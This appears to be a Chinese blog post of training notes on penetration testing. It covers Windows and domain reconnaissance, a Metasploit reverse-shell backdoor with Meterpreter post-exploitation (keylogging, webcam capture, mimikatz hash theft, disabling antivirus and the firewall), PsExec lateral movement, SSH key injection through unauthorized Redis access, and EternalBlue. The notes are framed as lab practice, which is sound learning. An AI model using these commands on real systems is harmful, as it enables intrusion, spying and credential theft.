 ```yaml
---
title: 2024网络安全攻防技术培训
date: 2024-06-25 09:00:00
tags:
  - 培训
  - 网络安全
categories:
  - 培训
  - 网络安全
---
```


2024网络安全攻防技术培训部分笔记

<!-- more -->

# Windows信息收集

```bash
# windows信息收集
 ipconfig /all   # 查看本机ip，所在域
 route print     # 打印路由信息
 net view        # 查看局域网内其他主机名
 arp -a          # 查看arp缓存
 net start       # 查看开启了哪些服务
 net share       # 查看开启了哪些共享
 net share ipc$  # 开启ipc共享
 net share c$    # 开启c盘共享
 net use \\192.168.xx.xx\ipc$ "" /user:""    # 与192.168.xx.xx建立空连接
 net use \\192.168.xx.xx\c$ "密码" /user:"用户名"    # 建立c盘共享
 dir \\192.168.xx.xx\c$\user    # 查看192.168.xx.xx c盘user目录下的文件

# 域信息收集
 net config Workstation    # 查看计算机名、全名、用户名、系统版本、工作站、域、登录域
 net user                 # 查看本机用户列表
 net user /domain         # 查看域用户
 net localgroup administrators    # 查看本地管理员组（通常会有域用户）
 net view /domain         # 查看有几个域
 net user 用户名 /domain   # 获取指定域用户的信息
 net group /domain        # 查看域里面的工作组，查看把用户分了多少组（只能在域控上操作）
 net group 组名 /domain    # 查看域中某工作组
 net group "domain admins" /domain  # 查看域管理员的名字
 net group "domain computers" /domain  # 查看域中的其他主机名
 net group "doamin controllers" /domain  # 查看域控制器（可能有多台）

# 添加用户
 net user xx xxxx /add      # 添加用户
 net localgroup administrators xx /add  # 添加用户到域
```

使用Metasploit生成反弹shell后门程序，上传靶机执行，上线后抓取口令。

[Metasploit (MSF) 使用:包含基本使用、payload生成、后渗透模块使用](https://blog.csdn.net/x319427393/article/details/129366648)

```bash
msfconsole

# msf6 >
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.24.31.172 LPORT=5353 -f exe > shell.exe   # 生成反传程序

use exploit/multi/handler

# msf6 exploit(multi/handler) >
set payload windows/meterpreter/reverse_tcp   # 设置payload

show options # 查看配置

set lhost 172.24.31.172     # 配置lhost，lport配置同理

exploit # 监听反传，需要先将前面生成的反传程序在靶机运行
```

成功劫持后常用模块：

```bash
1、获取系统运行平台: sysinfo
2、提取系统信息: run scraper
3、查看进行: ps
4、迁移进行: migrate 1774
5、查看文件: cat 文件
6、查看当前路径: pwd
7、搜索文件: search -d c:\\ -f *.doc
8、其他命令类似于Linux命令: cd, rm, mkdir, rmdir, dir, mv等等
9、上传文件: upload 本机路径 上传目标路径
10、下载文件: download 目标路径 本机路径
11、进程迁移: run post/windows/manage/migrate
12、关闭杀软: run post/windows/manage/killav
13、通过shell来关闭防火墙: netsh advfirewall set allprofiles state off 
14、截屏: screenshot
15、查看桌面: run vnc
16、开启3389: run post/windows/manage/enable_rdp
17、提权模块: mult/recon/local_exploit_suggester 设置过去的session ID
				 执行之后会返回可以提权的模块，然后进行调用，设置session提权，成功会返回新的会话
18、运行程序: execute -f notepad.exe 加H可以进行隐藏运行
19、摄像头命令:
					音频录制: record_mic
					查看摄像头接口: webcam_chat
					查看摄像头列表: webcam_list
					摄像头视频获取: webcam_stream
20、端口转发: 作用如果目标机器在内网开放3389，外网无法连接，这个时候进行端口转发，利用会话将目标机器3389转发到本地，实现3389远程连接
					-L: 要监听的本地主机ip（可选）
					-h: 帮助
					-l: 要监听的本地端口
					-p: 要连接到的远程端口
					-r: 要连接的远程主机ip
					portfwd add -l 4444 -p 3389 -r 10.211.55.7 // 把目标机10.211.55.7的3389端口转发到本机127.0.0.1的4444端口，直接进行连接本机4444端口即可3389远程连接，同样如果本地两台电脑，另一台电脑直接远程访问开启4444主机的IP+4444可以直接进行连接，，，，注意端口转发并不需要高权限上线就可以直接转发。
21、键盘记录:
				keyscan_start: 开启键盘记录功能
				keyscan_dump: 显示捕捉的键盘记录信息
				keyscan_stop: 停止键盘记录
21、获取hash值: load mimikatz（32位）load kivi（64位）此时调用完成就直接可以使用该模块的命令，但是使用该命令需要拥有系统system权限，同样也可以使用hashdump导出
22、盗取身份令牌: use incognito
					list_tokens -u: 列出目标主机用户组可用的令牌，有的话可以直接进行身份切换
					list_tokens -g: 列出目标主机用户组可用的令牌，有的话可以直接进行身份切换
					impersonate_token LUCKYXBDC6\luckyx: 切换令牌身份
```

使用微软PsExec工具连接服务器cmd，控制域控。

[【渗透测试笔记】之【内网渗透——横向移动：PsExec的使用】](https://blog.csdn.net/qq_44874645/article/details/121394678)

```bash
PsExec64.exe /accepteula /s \\192.168.52.138 -u Administrator -p 12345@QwerT cmd
```

# 内网穿透

工具：

- ew
- frp
- nps
- metasploit
- CobalStrike

# 尝试

fscan 扫描端口与服务。

比如扫出 cve 漏洞，搜索如何利用漏洞攻击；redis未授权漏洞中 `/root/.ssh/` 可写的话可直接上传公钥连接ssh。

- 通过redis备份方式写入

[Redis未授权访问写Webshell和公私钥认证获取root权限](https://www.cnblogs.com/-qing-/p/10978912.html)

- 通过fscan写入redis文件

```bash
fscan -h 172.24.31.169 -rf /home/kali/.ssh/id_rsa.pub

ssh -i id_rsa root@172.24.31.169
```

注：使用python开启web下载服务器

```bash
# python2 开启web下载服务器（后台有日志）
nohup python -u -m SimpleHTTPServer > download.log 2>&1 &

# python3 开启web下载服务器
python -m http.server 8000
```

msf攻击windows靶机，假设靶机拥有`MS17-010`漏洞：

win7使用`exploit/windows/smb/ms17_010_eternalblue`比较稳定，win2012及以上使用`exploit/windows/smb/ms17_010_psexec`较稳定。

[msf下MS17-010模块使用总结](https://blog.csdn.net/qq_43645782/article/details/106870256)